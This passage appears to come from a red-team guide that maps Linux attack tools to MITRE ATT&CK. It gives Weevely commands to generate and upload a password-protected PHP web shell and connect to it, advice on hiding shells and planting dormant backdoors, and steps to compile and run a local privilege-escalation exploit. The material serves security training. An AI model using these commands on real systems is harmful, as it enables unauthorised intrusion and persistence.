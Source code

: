 **Specific ATT&CK Mapping**:
- SSH key deployment implements T1133
- Remote access services provide reliable persistence mechanism

**Red Team Approach**:
- Use multiple persistence mechanisms with different triggering conditions
- Implement dormant backdoors that activate only after specific conditions
- Document all persistence mechanisms for proper cleanup

### Weevely: Web Shell Management

**Weevely** provides a sophisticated web shell for web server persistence:

```bash
# Generate a web shell
weevely generate P@ssw0rd123 /tmp/shell.php

# Upload to target web server (method depends on initial access)
# Example using curl (if file upload vulnerability exists)
curl -F "file=@/tmp/shell.php" http://target.com/upload.php

# Connect to the web shell
weevely http://target.com/uploads/shell.php P@ssw0rd123
```

**Specific ATT&CK Mapping**:
- Web shell uploading maps to both persistence and web shell techniques (T1505.003)
- Weevely implements stealth features to evade detection

**Operational Considerations**:
- Web shells may be detected by web application firewalls
- File integrity monitoring can identify new or modified web files
- Select inconspicuous file names and locations for web shells

## Privilege Escalation Techniques and Tools

Privilege Escalation consists of techniques used to obtain higher-level permissions on a system or network. Many Linux tools we've covered implement these techniques.

### Exploitation for Privilege Escalation (T1068)

This involves exploiting software vulnerabilities to elevate privileges.

**Linux Exploit Suggester**:
```bash
# Run the tool to identify potential kernel exploits
./linux-exploit-suggester.sh

# Download and compile a suggested exploit
gcc -o exploit /tmp/cve_2021_4034.c
./exploit
```

**Specific ATT&CK Mapping**:
- Kernel exploit usage directly implements T1068
- Local privilege escalation exploits target vulnerable software
